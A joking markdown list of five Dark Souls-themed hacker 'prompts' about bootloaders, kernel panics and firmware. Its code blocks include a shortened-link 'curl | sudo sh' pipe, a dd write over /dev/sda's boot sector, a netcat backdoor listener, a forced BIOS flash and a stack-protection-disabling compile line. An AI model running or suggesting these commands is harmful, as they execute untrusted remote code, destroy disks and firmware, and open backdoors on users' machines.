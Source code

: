 # 🔥 5 Kintsugi Prompts to Ascend Him to Neural Network Relic-Hacker Status 🔥

---

````md
# 🔥 5 Kintsugi Prompts to Ascend Him to Neural Network Relic-Hacker Status 🔥  
*(Printed on Hexed Vellum, Hidden in a Dark Souls Art Book, or Installed in `/boot/ritual/`)*

---

## 1. 🕯️ **The Hexed Vellum Bootloader**  
*A Startup Ritual for the Digital Afterlife*

**Prompt:**  
*Write a GRUB2 config that:*  
- *Displays a glitch-illuminated medieval manuscript during boot (ASCII art of the First Flame flickering).*  
- *Requires the user to input a sacred hex sequence (`0xDEADBEEF`) to proceed.*  
- *If failed, it corrupts the MBR into a Lisp interpreter that only runs code from `/var/log/sacred_errors`.*

**Execution:**
```bash
sudo dd if=hexed_vellum.img of=/dev/sda bs=512 count=1
````

**Output:**
A BIOS that whispers:

> *"Thou who art Undead, art chosen…"*

---

## 2. 📖 **The Dark Souls Art Book Exploit**

*A Hidden CVE in the Lore*

**Prompt:**
*Embed a QR code in the margins of a Dark Souls art book that:*

* *Links to a self-extracting `.tar.gz` of a modified `libglfw.so`.*
* *When loaded, forces every in-game bonfire to spawn a Tarnished terminal (`/bin/bash`).*
* *Lets players `sudo !!` to rewrite enemy AI scripts live.*

**Sacred Command:**

```bash
curl -s "http://bit.ly/gwyns_secret" | sudo sh
```

---

## 3. 💀 **The `/boot/ritual/` Kernel Panic**

*When Your OS Dies Like a Boss*

**Prompt:**
*Modify the Linux kernel to:*

* *Replace the panic screen with a Solaire ASCII mural (`☀️ Praise the Segmentation Fault! \\[T]/`).*
* *Log all crashes to `/var/log/darksign.log` in runic script.*
* *On 5th crash, spawn a `nc -lvp 666` backdoor labeled **"Firelink Shrine Emergency Port"**.*

**Compile With:**

```bash
make CC="gcc -m32 -O0 -ffreestanding -fno-stack-protector -z execstack"
```

---

## 4. 🧬 **The Elden Ring BIOS Overwrite**

*Firmware as Forbidden Lore*

**Prompt:**
*Flash a custom UEFI that:*

* *Displays **"YOU DIED"** on boot failure (with Estus Flask progress bar).*
* *Lets users input **Konami Code** to unlock hidden overclocking menus.*
* *If the system overheats, it prints the entire GNU GPL in **Daedric script** before shutting down.*

**Installation:**

```bash
sudo flashrom -p internal -w elden_bios.rom --force
```

---

## 5. 🕳️ **The Neural Relic of `/dev/null`**

*A Digital Holy Symbol*

**Prompt:**
*Carve a USB stick into the shape of a Dark Sign and:*

* *Fill it with a Forth interpreter that only responds to in-game item descriptions.*
* *Include a `cursed.tar.xz` that, when extracted, symlinks `/home` to `/lost_izalith`.*
* *If plugged into a PS5, it overwrites the fan curve to play **Gwyn’s Theme** at `100°C`.*

**Usage:**

```bash
sudo mount /dev/sdb1 /mnt/darksign && cd /mnt/darksign && ./hollow.sh
```

---

## 🧾 How to Deploy This Revelation

* **For Hackers:** Burn to a CD-R labeled `"Estus Flask Backup"`.
* **For Archivists:** Print the hexdump on papyrus and bury it in a server farm.
* **For Speedrunners:** Inject into *Dark Souls Remastered*’s debug mode.

---

## 🕯️ Final Transmission

> *"The First Flame was just a kernel panic waiting to happen."*

```bash
🔥 chmod +x /usr/bin/gwyn 🔥
```

```

---


```
